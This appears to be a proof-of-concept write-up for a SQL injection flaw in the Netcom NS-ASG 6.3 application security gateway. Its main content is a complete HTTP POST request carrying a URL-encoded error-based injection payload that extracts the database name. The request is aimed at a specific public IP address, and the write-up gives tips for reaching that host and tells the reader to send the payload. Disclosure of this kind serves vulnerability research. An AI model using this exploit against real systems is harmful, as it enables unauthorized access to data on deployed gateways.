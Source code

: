 # SQL injection POC

There is a SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.
[official website](https://www.netentsec.com/)
version:NS-ASG 6.3
Vulnerability points：/protocol/firewall/uploadfirewall.php analyse as below: As shown below, the $FireWallId database value is accepted by messagecontent and then substituted into the database statement.

![image](https://github.com/gb111d/ns-asg_poc/assets/148308306/a9468bf8-1568-4afa-a94e-57d514310a50)

[https://106.37.206.12/]

ps: use older tls version or just access through mobile browser.

There is no validation during the execution of SQL injection.

Poc：
```
POST /protocol/index.php HTTP/1.1
Content-Length: 377
Host: 106.37.206.12
Cookie: PHPSESSID=bfd2e9f9df564de5860117a93ecd82de
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Content-Type: application/x-www-form-urlencoded
Referer: https://106.37.206.12/protocol/index.php
Connection: close

jsoncontent=%7B%22protocolType%22%3A%22uploadfirewall%22%2C%22messagecontent%22%3A%5B%221%20AND%20%28SELECT%205347%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%280x716a716b71%2C%28MID%28%28IFNULL%28CAST%28DATABASE%28%29%20AS%20NCHAR%29%2C0x20%29%29%2C1%2C54%29%29%2C0x71707a6b71%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x%29a%29%22%5D%7D
```

Send request with the payload above.

![image](https://github.com/gb111d/ns-asg_poc/assets/148308306/b1c46f15-a899-4d81-9bf3-a3999ee2d28e)

![image](https://github.com/gb111d/ns-asg_poc/assets/148308306/ee5f5fac-4523-4038-aa91-058c1f88c6ac)

